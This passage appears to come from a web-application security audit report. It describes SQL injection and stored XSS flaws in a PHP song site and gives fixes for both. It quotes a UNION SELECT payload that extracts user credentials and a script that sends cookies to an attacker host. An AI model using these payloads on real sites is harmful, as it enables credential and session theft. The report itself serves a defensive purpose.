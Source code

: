```
$keyword = $_GET["keyword"];
$query = "SELECT name,description,author from songs where name LIKE '%" + $keyword + "'";
```
By sending a malicious keyword, attackers can modify the SQL query string to extract data from other tables. For example, if attackers send the string ***0000' UNION SELECT username, password, email from users ' #***, then the query string will become
SELECT name,description,author from songs where name LIKE '%00000' UNION SELECT username, password, email from users 

#### b. Impact
Malicious attackers can use search page extract data from the database and can control the server by uploading a shell into the server.

#### c. Solution
Build SQL query string using the prepared statement instead of concatenating strings. For instance, to fix the above code, we can use:
```
$keyword = $_GET["keyword"];
$stmt = $conn->prepare("SELECT name,description,author from songs where name LIKE ?");
$stmt->bind_param("s", $keyword);
```

#### d. Reference
- https://owasp.org/www-community/attacks/xss
- https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

### 2. Stored cross site scripting (XSS) (High)
#### a. Description
The website allows users to comment on a song. After the user posts a comment, it will be stored in the database and displayed to all the users visiting the page.
The code to display the comment is as follows:
```
while ($row = $result->fetch_assoc()) {
    echo '<p class="user_comment">' . $row["comment"]. '</p>';
  }
```
If attackers submit malicious javascript as the comment, it will be executed in the browsers of users who view the comment. For example, the attacker can submit the following comment to steal user cookie:
```
<script>document.write('<img src="https://attacker.me/collect.gif?cookie="' + document.cookie + '" width=0 height=0 />')</script>
```
Additionally, the web application allows javascript to directly access the cookie, which allows attackers to directly access user session id.

#### b. Impact
An attacker can post a malicious comment to steal sessions of users who access the page.

#### c. Solution
- Convert the special HTML characters to HTML entities before returning them to the client. For example, the above code can be fixed using htmlspecialchars:
```
while ($row = $result->fetch_assoc()) {
    echo '<p class="user_comment">' . htmlspecialchars($row["comment"]) . '</p>';
  }
```
- Set the HttpOnly flag in the HTTP Response so cookie can not be accessed directly by javascript.
